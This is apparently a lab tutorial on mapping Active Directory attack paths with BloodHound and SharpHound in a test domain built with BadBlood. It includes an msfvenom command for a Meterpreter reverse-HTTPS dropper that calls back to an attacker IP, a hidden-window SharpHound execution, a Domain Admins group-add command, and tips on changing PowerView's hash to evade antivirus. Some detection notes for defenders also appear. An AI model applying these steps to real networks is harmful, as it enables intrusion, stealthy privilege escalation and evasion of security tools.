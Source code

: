 # Bloodhound
### What is it?
Bloodhound describes their product as using graph theory to reveal hidden and unintended links between users and groups that makes lateral movement easier for attackers. Naturally this is fantastic for defenders as well since you can view these paths and preemptively close them off or create alerting around when they're traversed.

### Setting up an AD environment with Badblood
First things first, I do not have a thousand person company with which to test active directory relationships. I also don't want to spend hours upon hours creating this by hand. Thankfully, someone else also didn't want to do this and so automated it! Enter Badblood. This is a Powershell script that can be used to fill an AD environment with randomness. Thousands of users and groups and relations with which to test and play around with. This can be downloaded from [their Github page](https://github.com/davidprowe/BadBlood), and running it is as simple as launching an admin Powershell window, navigating to the folder, setting the execution policy to unrestricted with ```set-executionpolicy unrestricted```, and then launching it with ```.\Invoke-badblood.ps1```.

![Upgraded AD](/assets/img/bloodhound/upgraded-ad-badblood.png)

Now this is an AD environment!

### Running Bloodhound
For this example, we'll be running Bloodhound from our Kali machine, emulating the attacker. The first step is to install neo4j through ```sudo apt install neo4j``` - this is needed as it is our graph database management system. Start it with ```sudo neo4j start``` and after waiting a minute, browse to ```http:localhost:7474``` and login with the username and password neo4j/neo4j. Set a new password here to whatever you want, and we're now ready to install Bloodhound. Just like before, we'll install this with ```sudo apt install bloodhound``` and start it with ```sudo bloodhound```. You should see the Bloodhound screen popup with similar to this.

![Bloodhound](/assets/img/bloodhound/bloodhound-login.png)

This is great and all, but our database is empty. There are no complicated AD relationships to untangle. So let's change that. We could just generate random data for a DB with a provided Python script, or we could practice taking that data from a DC.

### Enter SharpHound
Sharphound is a .NET executable that, when run, uses LDAP to collect information on all OU's, computers, accounts, and groups, as well as the links between them. This can uncover a lot of otherwise impossible to discover links between groups and users. We can run SharpHound from our C2 in order to generate some data for BloodHound. For this, we will be running Sharphound from a Metasploit console just for ease of reproduction - it's free and everyone has a copy! First, we'll use msfvenom in order to generate the staged dropper.

```
msfvenom -p windows/meterpreter/reverse_https lhost=192.168.1.50 lport=443 -f exe > dropper.exe
```
Then, we'll host a listener through Metasploit with the ```multi/handler```.
![Meterpreter](/assets/img/bloodhound/meterpreter-listener.png)

Once started, we're ready for the staged dropper to connect back and start our session. Upload Sharphound to the victim through ```upload SharpHound.exe``` and run it with ```execute -f SharpHound.exe```. This will start a new process and pop a very obvious shell window on the victim machine that shows Sharphound executing.
![SharpHound](/assets/img/bloodhound/running-SharpHound.png)
This can be hidden by first dropping into a shell with ```shell``` and then running SharpHound through ```PowerShell.exe -WindowStyle hidden C:\Users\matt\Downloads\SharpHound.exe```. Finally, grab the output from Sharphound which is a zip file with ```download <filename>```.

### What info is gleaned?
Drag and drop this zip into Bloodhound and we're ready. Upon first examination of the data in Bloodhound, it's a huge mess.
![A mess](/assets/img/bloodhound/bloodhound-getting-admin.png)
However, within this, we can identify some interesting lateral movement paths that bring us to domain admin.
![Path to DA](/assets/img/bloodhound/bloodhound-path-to-da.png)
If we then focus in on one path only, we can see that there exists a number of group chains that connects the unprivileged account of Roger Lowery to Ellen Hale.
![Example path](/assets/img/bloodhound/bloodhound-path-to-da-longest-path.png)
Let's see how this looks in AD to get an idea of the path that Bloodhound has identified.
![AD Comparison](/assets/img/bloodhound/ad-comparison.png)
This is odd. We can see the group memberships flowing from Roger up through LA-CAS-DISTLIST1 but where is this link to KA-COC-ADMINGROUP1 coming from? The answer is the AD permission GenericAll. GenericAll grants the group full permission over the object, much like Domain Admin.

![EA](/assets/img/bloodhound/effective-access.png)

They have all permissions possible. This is outlined in the security tab of the AD object as an extra set of permissions that are granted. And not only does this group we're looking at have GenericAll permissions to another group, that next group has GenericAll permissions to the Domain Admin Ellen Hale, giving us our attack path. This is what makes Bloodhound stand out, finding things like these obscure permission settings that are not immediately obvious.

Helpfully, Bloodhound gives us the commands that we need to run in order to abuse this group relationship. You can see these by right-clicking the attack path and selecting help, then going to the "Abuse Info" tab.
![Abuse Info](/assets/img/bloodhound/bloodhound-help.png)

### Opsec considerations

SharpHound is designed to blend in with normal AD traffic, but there are certain key details you can hunt for. Event ID 5156 is generated en masse in the security logs when SharpHound starts, querying LDAP.

![AD](/assets/img/bloodhound/ad-event-5156.png)

Another thing to consider is the commands that are suggested in the attack path. They are the "easiest" ways to perform the privilege escalation, but they are also *noisy* and that attracts attention. Bloodhound recommends importing PowerView to the endpoint in order to perform a lot of privilege escalation and, while this will create less alerts compared to just running ```net group "Domain Admins" userName /add /domain```, PowerView gets detected very quickly. This can be mitigated to a degree by changing the hash, reducing the amount of engines statically detecting it. But there's still a high risk at run time that the commands will raise flags.

![VT](/assets/img/bloodhound/powersploit-updated-hash.png)
